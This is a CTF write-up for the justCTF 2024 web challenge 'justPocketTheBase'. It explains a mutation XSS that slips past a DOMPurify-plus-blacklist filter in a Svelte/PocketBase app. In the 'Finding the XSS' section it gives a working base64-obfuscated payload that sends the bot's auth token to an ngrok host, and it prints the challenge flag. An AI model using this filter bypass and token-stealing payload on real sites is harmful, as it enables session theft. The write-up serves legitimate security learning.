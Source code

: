 ```yaml
---
layout: post
title: justCTF 2024 Teaser justPocketTheBase Writeup
subtitle: mXSS (Constant Suffering Syndrome)
mathjax: true
share-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
cover-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
tags: [CTFs Writeups, Web]
author: m411k
---
```


## justPocketTheBase ≈ 44 solves

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/1caba872-34a9-48f4-a5aa-80f069d78e2f)

This challenge took me some time, not because it was hard per-say, but because I've spent too much time focusing on stuff that wasn't vulnreable but seemed sus, things like pocketbase configuration setup, pocketbase file uploading naming normalization, I kept focusing on the side stories rather than the main story, but nonetheless every side quest gave me more insight on the technology used by the author, which is always good, espicially that I haven't had much exposure to pocketbase before now.

## Setup

The challenge uses pocketbase database in the backend, and svelte as the front-end framework responsible for communicating with the api's provided by pocketbase in the backend:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/8aeead11-29be-4a8b-85bb-8583021954d6)

## Finding the XSS

From the start it was clear that you had to find an XSS, you have the bot, the main application where every user can post "plant" photos with their title, it was the classic setup.

So setting up to find the XSS, this block of code stands up:

```javascript
<script>
	import { onMount } from 'svelte';
	import { pb } from '$lib';

	let blacklist = [
		'window',
		'document',
		'cookie',
		'fetch',
		'navigator',
		'sendbeacon',
		'+',
		'_',
		'script',
		'!',
		'"',
		'#',
		'%',
		"'",
		'(',
		')',
		'*',
		'+',
		',',
		'-',
		'/',
		':',
		'?',
		'@',
		'[',
		']',
		';'
	];
	let id = null;
	let plant = null;
	let isLoading = true;
	let title;

	onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
</script>
```

Its in `routes/view-plant/+page.svelte` route, this routing scheme is specific to svelte, and manages how the `url/view-plant/id=x` will behave.

```javascript
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
```

The DOMPurify library was on a stable version and finding a 0-day in this labeled `easy` challenge was surely out-of-scope (although its comming in later challenges :haha:), but this way of sanitizing the title, creating an element with that content, then taking the innerText of the latter, then finally adding it to the title element that gonna be displayed to the user was all just over-engineered and opened the door for a mutation XSS (shortened as mXSS), where I will provide HTML entities in the title `&lt;` (`<`), `&gt;` (`>`) which are normally secure, so DOMpurify will not clear them off, but with the first div element, those html entities will be decoded, so when taking in them back and piping them to the legit title, they will be litterally treated as `<`, `>`, and we can create a html tags with them, so now its only a matter of crafting a payload wich is fairly easy, here is my final working payload:

```
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaCgnaHR0cDovLzIudGNwLmV1Lm5ncm9rLmlvOjEwMDMwLycrYnRvYShsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIikpLCB7IG1vZGU6ICduby1jb3JzJ30p`&gt;
```

the base64 is just:

```javascript
javascript:fetch('http://2.tcp.eu.ngrok.io:10030/'+btoa(localStorage.getItem("pocketbase_auth")), { mode: 'no-cors'})
```

Surely after reporting my image, I get back the admin token in my flask server:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/bfa22b15-0358-466c-af62-dd39f808b330)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/cae7f544-21c7-4cc7-bbd7-908a440835d6)

By changing your token to the flag token, you get can view his uploaded image, and by applying exiftool to it, you find flag:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/b037e1b7-2700-46e8-8809-845a23ef740f)

And Here you go!: `justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}`
